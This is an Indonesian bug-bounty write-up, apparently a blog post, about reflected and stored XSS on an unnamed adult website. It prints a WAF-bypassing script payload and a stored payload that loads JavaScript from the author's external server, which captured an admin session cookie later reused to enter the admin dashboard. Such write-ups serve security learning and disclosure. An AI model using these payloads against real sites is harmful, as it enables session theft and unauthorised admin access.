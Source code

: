 ```yaml
---
layout: post
title: Mengintip Dashboard Admin Situs Haram (XSS Story)
categories: [Bug Bounty Write-Up]
author: Akbar Kustirama
---
```


Kegiatan ini berawal dari salah satu teman yang memberi informasi bahwa dia baru saja mendapatkan _bounty_ dari salah satu situs haram yang ada di luar sana. Singkat cerita, saya mencoba mencari peruntungan serupa dengan mencari situs sejenis di pencarian Google dengan harapan menemukan situs yang cukup "umum" yang secara fitur punya banyak bagian yang bisa saya coba untuk masuki.

Untuk mempermudah dan agar saya tidak perlu menyebut nama situsnya, mari kita sebut situs ini sebagai `situsharam.com`.

<img src="https://infosec.zerobyte.id/images/screenshot-situs-haram.png" alt="Mengintip Dashboard Admin Situs Haram">

Setelah mencoba beberapa fitur seperti list _actors/actress_, kategori, pencarian, serta fitur yang membutuhkan autentikasi pengguna seperti _edit profile_, _like_, _comment_ dan semacamnya, saya menemukan beberapa celah yang detailnya akan saya jelaskan di bawah ini.

### Reflected XSS pada Halaman Pencarian
Celah pertama adalah _Reflected XSS_ yang saya temukan di halaman pencarian. Payload yang saya gunakan adalah: 

```html
asd"><ScRiPt%20>alert(1);<%2fscript>
```

Saat mencoba, saya menemukan bahwa karakter `/` diblok oleh WAF sehingga saya coba untuk mem-bypass rule tersebut menggunakan karakter `%2f`. Dari temuan ini saya bisa menggunakan _payload_ yang sudah disisipi _script_ untuk mencuri `cookie` pengguna.

Pada kasus di dunia nyata, seorang penyerang akan menyisipkan javascript yang bertujuan untuk mencuri _cookie_ pengguna dan beberapa data lain, lalu mengirimnya pada server penyerang. 

Untuk melakukan ini, penyerang perlu mengirim URL (yang sudah disisipi _payload_) ke pengguna lain atau pemilik/admin dari situs ini. Lalu penyerang akan menggunakan data tersebut untuk masuk di situs target tanpa menggunakan _username_ dan _password_.

<img src="https://infosec.zerobyte.id/images/screenshot-reflected-xss-pencarian.jpg" alt="Mengintip Dashboard Admin Situs Haram">

### Stored XSS pada Profile

Saya rasa kebanyakan _bug bounty hunter_ (termasuk saya) akan mencoba memasukkan _payload_ ke setiap form yang kami temui. Dengan modal "penting yakin", saya mengisi `"><h1>asdf</h1>"` pada kolom nama di halaman _Edit Profile_.

Setelah menyimpan perubahan tersebut, kode HTML yang saya sisipkan dibaca oleh situs sehingga menandakan adanya potensi untuk _Stored XSS_. 

<img src="https://infosec.zerobyte.id/images/screenshot-html-injection-profile.jpg">

Saya melanjutkan dengan memasukkan payload:

```html
"><script src=//x.serversaya.com></script><x="
```

- `">` = digunakan untuk keluar dari input form (```<input>```)
- `<script src=//x.serversaya.com></script>` = digunakan untuk memanggil script dari server saya (<a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a>)
- `<x="` = digunakan untuk membuka kembali hasil escape dari input form, sehingga tidak ada " type="text" dst seperti screenshot di atas

Setelah beberapa waktu menunggu, saya mendapat notifikasi bahwa payload di atas ditemukan di domain lain (cp.situslain.com) yang mana adalah dashboard admin dari `situsharam.com`. Berikut detail laporan dari <a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a> saat payload saya ditemukan di dashboard admin (klik gambar untuk memperbesar).

<a href="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" target="_blank"><img src="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram"></a>

Pada tangkapan layar di atas, terlihat ada `cookie` admin yang tertangkap oleh kode javascript yang saya panggil. Saya akan mencoba menggunakan Cookie tersebut untuk masuk ke `https://cp.situslain.com/user/edit/{userid}`.

Ketika mengakses `https://cp.situslain.com/user/edit/{userid}`, saya dialihkan ke halaman login `https://cp.situslain.com/user/login`. 

<img src="https://infosec.zerobyte.id/images/screenshot-login-page-set-cookie.jpg" alt="Mengintip Dashboard Admin Situs Haram">

Selanjutnya saya mencoba _set cookie_ manual melalui `Console` pada `inspect element` dengan cara memasukkan kode javascript. Cookie ini berasal dari laporan ezXSS di atas:

```javascript
document.cookie = 'PHPSESSID=lot4#######################';
````

Setelah Cookie di-set, saya mencoba mengulang lagi dan akhirnya berhasil membuka halaman `https://cp.situslain.com/user/edit/{userid}`.

<img src="https://infosec.zerobyte.id/images/screenshot-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram">

**Disclaimer**  
_Level_ dan _Credit_ yang tertera pada screenshot adalah pemberian admin (apresiasi, menurut istilah sekarang) setelah saya melaporkan temuan ini. Proses pelaporan tidak akan saya jelaskan di sini, hehe.

Sekian artikel "Mengintip Dashboard Admin Situs Haram". Semoga ada yang bisa dipelajari dari artikel ini, selain akhirnya kita tahu bentuk halaman dashboard admin situs haram. Sampai jumpa di artikel selanjutnya.

